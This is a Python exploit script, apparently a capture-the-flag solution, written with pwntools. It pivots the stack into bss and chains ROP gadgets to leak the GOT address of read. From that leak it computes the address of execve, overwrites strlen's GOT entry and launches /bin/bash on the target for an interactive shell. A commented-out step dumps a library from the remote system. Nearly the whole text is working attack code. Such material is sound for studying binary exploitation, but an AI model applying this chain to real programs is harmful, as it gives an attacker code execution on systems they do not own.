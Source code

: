 ```py
	rop = ROP(elf)
	leave_ret = rop.find_gadget(['leave','ret'])[0]
	read = elf.plt['read']
	add_eax = bv.find_next_data(bv.start,b"\x03\x02\x7a")
	jmp_eax = bv.find_next_data(bv.start,b"\xff\xe0")
	pop_3 = rop.find_gadget(['pop esi', 'pop edi', 'pop ebp', 'ret'])[0]
  
	# pivot to bss
	payload = b"A"*(size-4)
	payload += p32(elf.bss()) #ebp
	payload += p32(read)
	payload += p32(leave_ret)
	payload += p32(0)
	payload += p32(elf.bss(4))
	payload += p32(elf.got['read'])
  
	io.send(payload)
	io.clean()
  
	# call write(1,read_GOT,4)
	payload2 = b""
	payload2 += p32(add_eax)
	payload2 += p32(jmp_eax)
	payload2 += p32(pop_3)
	payload2 += p32(1)
	payload2 += p32(elf.got['read'])
	payload2 += p32(4)
	# read execve into strlen
	payload2 += p32(read)
	payload2 += p32(pop_3)
	payload2 += p32(0)
	payload2 += p32(elf.got['strlen'])
	payload2 += p32(4)
	# call execve
	payload2 += p32(elf.plt['strlen'])
	payload2 += b"AAAA" # Dummy data
	payload2 += p32(elf.bss(17*4))
	payload2 += p32(0)*2
	payload2 += b"/bin/bash\x00"
	payload2 = payload2.ljust(0xa0,b"\x90")
  
	io.send(payload2)
	leak = u32(io.read(4))
	print("[!] Leak:", hex(leak))
	execve = leak-162352
	print("[!] Execve:", hex(execve))
  
	io.send(p32(execve))
	io.clean()

	# io.sendline("base64 /lib32/libgrail.so")
	# libgrail = io.readuntil(b"==").replace(b"\n",b"")
	# with open("libgrail.b64","wb") as f:
	# f.write(libgrail)

	io.sendline("echo DONE>log;exit")

	if x == 4:
		io.interactive()
	else:
		io.readuntil(b"********************************\n")
```
